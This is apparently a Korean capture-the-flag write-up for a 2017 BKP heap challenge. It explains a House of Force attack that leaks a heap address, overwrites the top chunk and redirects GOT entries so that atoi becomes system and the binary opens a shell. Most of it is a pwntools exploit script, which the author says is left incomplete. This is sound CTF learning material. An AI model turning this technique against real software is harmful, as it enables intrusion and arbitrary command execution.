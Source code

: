 # 2017_bkp_memo

## Key words

- i386 | NX
- heap (House of force)
- leak by got overwritten

## Solution

처음에 이름을 입력 받는 부분에서 힙 주소를 노출 시킬 수 있습니다.

그 이후, Host 와 Org를 입력 받는데 스트링을 복사 할 때, 오버플로우가 발생하여 힙의 top chunk (wilderness)를 수정할 수 있습니다.

top chunk의 크기를 0xffffffff로 변경하면 매우 큰 크기의 malloc이 가능하고 이는 32비트 주소 체계를 넘게 되서 다시 처음으로 돌게 할 수 있습니다.

따라서 malloc으로 내가 원하는 위치에 할당을 하기 위해 다음과 같이 계산 할 수 있습니다.

```
양수 계산: target - heap_addr - 8
음수 계산: (target - heap_addr) ^ 0xffffffff + 1
```

이를 이용하여 `bss` 영역부터 원하는 값을 쓸수가 있어 문제에서 제공하는 특정 배열을 조작할 수 있습니다.

문제는 기본적인 기능으로는 주소 노출을 할 수가 없는데, free@got를 puts@got로 변경하여 노출 시킬 수 있습니다.

노출된 주소를 이용하여 system 주소를 구하고, atoi@got 를 system 주소로 변경한 뒤, 메뉴 입력 시 `/bin/sh\x00`을 넣어 주면 쉘이 떨어 지게 됩니다.

> 익스 코드는 house of force를 이용하여 bss영역을 덮어 써서 got까지 덮어 쓴 내용이고 그 이후에는 개인 적인 환경에서 정상적으로 동작하지 않아 생략했습니다. 그러나 bss를 이용하여 got를 덮어 쓰는 곳 이후로는 별 다른 어려움이 없기 때문에 문제 해결에는 지장이 없습니다.

## Exploit Code

```python
from pwn import *
context(arch='amd64', os='linux')

target = "./bcloud"
p = process(target)
e = ELF(target)

def fn_leak(addr, n, title=""):
	print " *** {} : {} *** """.format(title, hex(addr))
	print hexdump(p.leak(addr, n))

print p.recv()
p.send("A"*0x3f + "Z")
data = p.recv()
data = data.split("Z")[1].split("!")[0]
heap_addr = u32(data)

print "heap addr : {}".format(hex(heap_addr))
print hexdump(p.leak(heap_addr-8, 0x100))

p.send("A"*0x40)
p.sendline("\xff"*4)
print p.recv()
print hexdump(p.leak(heap_addr-8, 0x100))

arr_N = 0x0804b0a0-0x8
got_addr = 0x0804b000
arr_list = 0x0804b120

# size = target - top_chunk - 8
size = (arr_N - (heap_addr-8+0xdc) - 8) & 0xffffffff
size = (0xffffffff ^ size) + 1
print hex(size)

p.sendline("1")
print p.recv()

p.sendline("-" + str(size))
print p.recv()

p.sendline("1")
print p.recv()

payload = ""
payload += p32(32) * 10
payload += p32(0) * 19
payload += p32(0) * 3
payload += p32(e.got['free'])
payload += p32(e.got['__libc_start_main'])
payload += p32(0)*9

print len(payload)
p.sendline(str(len(payload)+1))
print p.recv()

p.sendline(payload)
print p.recv()

fn_leak(arr_N, 0x50, "arr_N")
fn_leak(arr_list, 0x30, "arr_list")
fn_leak(got_addr, 0x30, "got_addr")

p.sendline("3")
print p.recv()
p.sendline("0")
print p.recv()
p.sendline(p32(e.got['puts']))
print p.recv()

fn_leak(arr_N, 0x50, "arr_N")
fn_leak(arr_list, 0x30, "arr_list")
fn_leak(got_addr, 0x30, "got_addr")

p.sendline("4")
print p.recv()
p.sendline("1")
print p.recv()
```
